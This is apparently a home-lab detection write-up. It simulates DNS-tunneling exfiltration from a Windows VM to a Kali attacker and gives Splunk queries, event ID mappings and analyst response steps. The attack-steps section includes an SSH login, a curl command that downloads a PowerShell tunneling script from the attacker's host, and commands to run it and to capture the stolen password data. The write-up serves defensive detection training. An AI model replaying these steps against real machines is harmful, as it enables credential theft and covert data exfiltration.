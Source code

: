 

# Detection Usecase 4 : DNS Tunneling


# Scenario Summary: 

An Attacker has attempted to logged in into the System by using credentials of a user and able to download a suspicious ps1 file,  
then executed the ps1 file which generated many DNS request to an unknown Domain Name , the request contain more than 15 character of subdomain which makking it suspicious.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and uploaded a PowerScript ![sender-dns-tunnel.ps1](<scripts/sender-dns-tunnel.ps1>) on it.  
```
ssh sshuser@192.168.0.103
```  
```
curl http://192.168.0.106/sender-dns-tunnel.ps1 -o sender-dns-tunnel.ps1
```
2) Then executed the following command to capture a file which contain sensitive passwords.  
```
powershell .\sender-tunnel.ps1
``` 
3) Now Attacker has started receiving many data from Victim Machine in Base64 format with the help of a python script [dns_tunnel_capturer.py](<scripts/dns_tunnel_capturer.py>).  
```
python3 dns-tunnel-capture.py
```  
![recived](logs/Screenshot_2025-06-03_03_29_12.png)


 ******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH, Python Scripts, DNS tunneling.  
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon


 ******************************
 ******************************

# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Sysmon      | 11        | File Creation                    |

 ******************************
 ******************************

# Detection Query / Logic:

```spl 
- Search - Logged in attempt
index=* EventCode=3 OR EventCode=4624 LogonType=8 OR LogonType=10
```
```spl 
- Search - Command Execution or file creation
index=* EventCode=1 OR EventCode=11
```
```spl 
- Search - Suspicious Lookup Detection
index=* EventCode=1 nslookup.exe | table CommandLine, EventCode, _time
```


 ******************************
 ******************************

# Sample Alert Screenshot

1) User has logged in.  

![login1](<logs/Screenshot 2025-06-03 130235.png>)  
![login2](<logs/Screenshot 2025-06-03 130219.png>)

2) Then attempted to download a ps1 file.  

![ps1](<logs/Screenshot 2025-06-03 135809.png>)  
![created](<logs/Screenshot 2025-06-03 135821.png>)

3) After execution of the PowerShell many nslookup Command Execution was seen  
and it was trying to resolve an unknown Domain Name.  

![nslookup](<logs/Screenshot 2025-06-03 131305.png>)  
![logs](<logs/Screenshot 2025-06-03 131124.png>)  
![logs 2](<logs/Screenshot 2025-06-03 131155.png>)

 ******************************
 ******************************

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> If there is Situation like DNS Tunneling, then :
    -> Confirm the Detection - Verify logs and see the indicators(e.g.,Sysmon EventId=1(command which trying to request an unknown Domain Name), Unknown Domain Name has long base64 encoded Subdomains) and try to correlate it with unexpected login or unusual user behavior.  
    -> Isolate the system sending the DNSRequest and stop if any malicious processes is running and disable the user account and Block the IP.  
    -> Check for any Lateral Movement activity(e.g., UserAccount Creation(4720), Registry Modification(4657), Scheduled Tasks(4698) or Service Creation(4697)).  
    -> Collect the Evidence.  
    -> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
